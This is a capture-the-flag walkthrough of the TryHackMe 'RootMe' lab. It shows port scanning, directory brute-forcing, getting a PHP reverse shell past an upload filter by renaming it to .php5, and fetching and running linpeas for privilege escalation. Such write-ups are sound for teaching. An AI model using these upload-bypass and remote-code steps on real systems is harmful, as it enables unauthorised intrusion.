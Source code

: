# TryHackMe - RootMe Writeup

## Nmap Scan

```bash
nmap -sT -T4 10.10.150.49
```

Discovered open ports:
- **22/tcp** - SSH
- **80/tcp** - HTTP

- AND
`nmap -sV -p 22,80 10.10.250.49`

- **Apache Version:** 2.4.29

## Directory Enumeration

Used `gobuster` to find hidden directories.

```bash
gobuster dir -u http://10.10.150.49 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

Discovered directories:
- `/uploads`
- `/panel`

## File Upload Exploit

Found an upload form in the `/panel` directory. Tried uploading a PHP reverse shell.

Copied the default PHP reverse shell:

```bash
cp /usr/share/webshells/php/php-reverse-shell.php shell.php
```

Edited with `leafpad` and added my IP address and port.

Initial upload of `.php` was blocked, so renamed to `.php5`:

```bash
mv shell.php shell.php5
```

Uploaded successfully and triggered reverse shell.

## User Flag

After getting a shell, found and read the user flag:

```bash
cat /user.txt
```

## Privilege Escalation

Transferred and executed `linpeas.sh`:

```bash
wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh
chmod +x linpeas.sh
./linpeas.sh
```

Used the information from `linpeas` to escalate privileges and then:

```bash
cat /root/root.txt
```

## Flags Obtained

- ✅ `user.txt`
- ✅ `root.txt`
